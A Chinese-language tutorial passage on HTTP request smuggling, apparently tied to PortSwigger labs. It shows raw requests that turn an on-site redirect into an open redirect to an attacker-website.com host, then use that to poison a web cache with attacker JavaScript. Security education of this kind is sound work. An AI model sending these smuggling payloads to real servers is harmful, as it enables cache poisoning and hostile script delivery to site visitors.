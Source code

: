 ## Turn An On-Site Redirect Into An Open Redirect

这种攻击场景是在目标在使用 30x 跳转的时候，使用了 Host 头进行跳转，例如在 Apache & IIS 服务器上，一个uri 最后不带 / 的请求会被 30x 导向带 / 的地址，例如发送以下请求：

```http
GET /home HTTP/1.1
Host: normal-website.com
```

会得到这样的响应：

```http
HTTP/1.1 301 Moved Permanently
Location: https://normal-website.com/home/
```

如果配合请求走私：

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 54
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: X
```

走私之后的请求会这样：

```http
GET /home HTTP/1.1
Host: attacker-website.com
Foo: XGET /scripts/include.js HTTP/1.1
Host: vulnerable-website.com
```

服务器如果根据host跳转的话，会有入下响应：

```http
HTTP/1.1 301 Moved Permanently
Location: https://attacker-website.com/home/
```

用户请求的是由网站上的页面导入的JS文件。攻击者可以通过在响应中返回他们自己的JS代码来进行其他操作。

## Perform Web Cache Poisoning

web缓存投毒，基于上面host的场景，如果front服务器存在缓存静态资源的话，可以配合http请求走私进行缓存投毒。

Lab：[Exploiting HTTP request smuggling to perform web cache poisoning](https://portswigger.net/web-security/request-smuggling/exploiting/lab-perform-web-cache-poisoning)

>   本实验涉及前端和后端服务器，前端服务器不支持分块编码。 前端服务器被配置为缓存某些响应。
>
>   为了解决实验室问题，请执行导致缓存中毒的请求走私攻击，以便随后对 JavaScript 文件的请求接收到对漏洞利用服务器的重定向。 中毒的缓存应该提醒 document.cookie。
